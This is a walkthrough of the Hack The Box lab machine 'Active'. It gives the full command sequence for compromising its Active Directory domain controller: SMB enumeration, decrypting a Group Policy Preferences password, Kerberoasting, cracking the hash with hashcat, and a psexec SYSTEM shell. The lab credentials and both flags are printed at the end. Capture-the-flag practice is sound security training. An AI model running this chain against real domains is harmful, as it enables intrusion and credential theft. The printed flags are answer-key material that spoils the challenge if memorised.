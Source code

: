 # Active - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.100

sudo vim /etc/hosts
#add active.htb

smbclient -L \\\\active.htb

smbmap -H 10.10.10.100

smbclient \\\\active.htb\\Replication
#enumerate the share
#alternatively, we can use smbmap

smbmap -R Replication -H 10.10.10.100
#get the Groups.xml file

cat Groups.xml

gpp-decrypt <cpasswd value>
#this decrypts cpasswd

GetADUsers.py
#for getting AD users

GetADUsers.py active.htb/SVC_TGS -all -dc-ip 10.10.10.100

smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.10.10.100
#check access to smb shares

smbclient \\\\active.htb\\Users -U SVC_TGS
#check Users share
#get user flag from SVC_TGS Desktop

GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
#outputs ticket hash
#can be cracked using hashcat

hashcat -a 0 -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt
#cracks the hash

smbmap -u Administrator -p Ticketmaster1968 -d active.htb -H 10.10.10.100
#we have access to all shares as Administrator

#get shell as System
psexec.py active.htb/Administrator@10.10.10.100
#get root flag
```

* Open ports & services:

  * 53 - domain - MS DNS 6.1.7601
  * 88 - kerberos-sec - MS Windows Kerberos
  * 135 - msrpc - MS Windows RPC
  * 139 - netbios-ssn - MS Windows netbios-ssn
  * 389 - ldap - MS Windows AD LDAP
  * 593 - ncacn_http - MS Windows RPC over HTTP 1.0
  * 3268 - ldap - MS Windows AD LDAP
  * 5722 - msrpc - MS Windows RPC
  * 9389 - mc-nmf - .NET Message Framing
  * 47001 - http - Microsoft HTTPAPI httpd 2.0
  * 49158 - ncacn_http - MS Windows RPC over HTTP 1.0

* Using ```smbclient``` we can check the SMB shares - this shows 'Replication' and 'Users' shares, amongst others.

* ```smbmap``` shows that only 'Replication' share can be accessed (read-only).

* We can recursively list all contents of the 'Replication' share using ```smbmap```.

* Enumerating this 'Replication' share gives us a "Groups.xml" file in one of the subfolders in 'Policies' directory.

* This file is for the account name "active.htb\SVC_TGS" and it also includes the field ```cpasswd```.

* This password is related to GPP (Group Policy Preferences), and it can be decrypted using ```gpp-decrypt```.

* The decrypted password is "GPPstillStandingStrong2k18".

* To get AD users, we can use ```GetADUsers.py``` from ```impacket```.

* This gives us other users - Administrator, Guest, and krbtgt.

* We can also check for the 'SVC_TGS' account, if it has access to any other SMB shares.

* ```smbmap``` shows that we can now read the shares 'NETLOGON', 'Replication', 'SYSVOL' and 'Users'.

* Connecting to the Users share, we can get the user flag from the Desktop for SVC_TGS user.

* Now, as we have a ```Kerberos``` service running on port 88, we can attempt ```Kerberoasting```.

* Using ```GetUserSPNs.py``` from ```impacket```, we can request the ticket; it prints the ticket hash for Administrator.

* Now, this ticket hash can be cracked using ```hashcat```.

* ```hashcat``` cracks the hash and gives us the password.

* Using ```smbmap```, we can confirm that all shares can be accessed as Administrator using this cracked password.

* Therefore, we can use ```psexec.py``` to get shell as System and read root flag.

```markdown
1. User flag - e490f93d21e2e08a7762e2949470bd8b

2. Root flag - 0e43aa662e54778d3007482b044c9702
```
